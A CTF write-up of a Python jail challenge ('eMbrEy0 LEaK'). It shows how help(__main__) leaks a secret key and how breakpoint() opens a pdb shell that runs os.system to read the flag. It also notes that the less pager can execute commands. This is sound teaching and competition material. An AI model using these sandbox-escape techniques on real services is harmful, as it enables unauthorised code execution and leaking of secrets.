


# eMbrEy0 LEaK

Categories: Misc

Description:
> D1d u like python,Their are some easy trick.Have fun!!!!
> 
>author: crazyman @ r3kapig
>
>[chal](src-public/service.py)
> 
> Private files not shared: [flag](src-private/flag), [chal](src-private/service.py)

**Tags:** python jail, `help()` leak, `breakpoint()`

## Takeaways

- You can use `help()` to leak data, file paths, source code, execute python code, or even execute system commands as it is piped through the `more` or `less` programs.
- `help()` and `breakpoint()` to get RCE.

## Solution

The source code of the challenge that we are given is pretty minimal:

```python
fake_key_var_in_the_local_but_real_in_the_remote = "[DELETED]"

def gUeST():
    print("Welcome to the gUeST func")
    print("It's time to input your command:")
    code = input("Command >")
    if(len(code)>6):
        return print("!!!!! TOO long!you're hacker!")
    try:
        print(eval(code))
    except Exception:
        return print("--- Exception: ---")

def BacKd0oR():
    print("Welcome to the B@cKd0oR func")
    print("Please enter the admin key:")
    key = input("key >")
    if(key == fake_key_var_in_the_local_but_real_in_the_remote):
        code = input("Command >")
        if(len(code)>12):
            return print("too long!you're hacker!")
        try:
            print(eval(code))
        except:
            pass
    else:
        print("Nooo!!!!")

WELCOME = '''<long prompt>'''

print(WELCOME)

print("Now the program has two functions")
print("can you use B@cKd0oR")
print("1.gUeST")
print("2.B@cKd0oR")
input_data = input("Choice > ")
if(input_data == "1"):
    gUeST()
    exit(0)
elif(input_data == "2"):
    BacKd0oR()
    exit(0)
else:
    print("not found the choice")
    exit(0)
```

As we can see, this is a two-stage challenge. In the fist stage we are allowed only 6 characters of input, while in the second stage only up to 12 characters of input. Let's try to brainstorm some ideas of short payloads that we can send:

```python
# https://docs.python.org/3/library/functions.html
input()
help()
vars()
locals()
globals()
breakpoint()
dir()
eval()
exec()
open()
[]
{}
__XX__() # builtins
__name__
__main__
```

As we can see, most of the above payloads are more than 6 characters. However, two payloads stand out. `help()` is exactly 6 characters and gives us an interesting prompt, and `breakpoint()` is exactly 12 characters.

### Stage 1

We will attempt to use the [help](https://docs.python.org/3/library/functions.html#help) built-in in order to leak the `key` and unlock stage 2. When we run `help()`, we are presented with the following terminal:



The help utility generally gives us the `__doc__` of whatever we provide it, lists classes of modules, functions, etc. One thing to notice here is that when we request information for, e.g. a module, we are dropped into the `less` utility program. After some exploration and going through the help information in `less`, we see that it allows arbitrary command execution:



When we try the `!whoami` command in `less`, we get no response. Probably the server has a modified version of `less` as we can exploit this functionality locally, but not on the remote.

Back to the `help()` python prompt now. In python, we know that [`__main__`](https://docs.python.org/3/library/__main__.html) is a module and corresponds to the challenge's code (top-level code environment). Let's try that:

```log
help> __main__

Help on module __main__:

NAME
    __main__

FUNCTIONS
    BacKd0oR()

    gUeST()

DATA
    WELCOME = '      \n       __  __ _          ______       ___...       ...
    __annotations__ = {}
    input_data = '1'
    key_a16379411c7ea222 = 'd3967f4666b31fb2b415abca64f6b18c'

FILE
    ~/ctfs/csaw22-finals/misc/embryo-leak/src-private/service.py

(END)
```

As we can see from above, `help(__main__)` actually returns statically initialized data and variable names. So, the value to enter stage2, is `d3967f4666b31fb2b415abca64f6b18c`.

(One side note here, is that if you pass in the prompt `help> service.py`, then the file will start executing again.)

### Stage 2

For stage 2, we already know that we can use `breakpoint()` as it is exactly 12 characters long:

```bash
Now the program has two functions
can you use B@cKd0oR
1.gUeST
2.B@cKd0oR
Choice > 2
Welcome to the B@cKd0oR func
Please enter the admin key:
key >d3967f4666b31fb2b415abca64f6b18c
Command >breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('ls')
flag  __pycache__  service.py
0
(Pdb) os.system('cat flag')
flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}00
(Pdb) exit
```

So, we get the flag! `flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}`
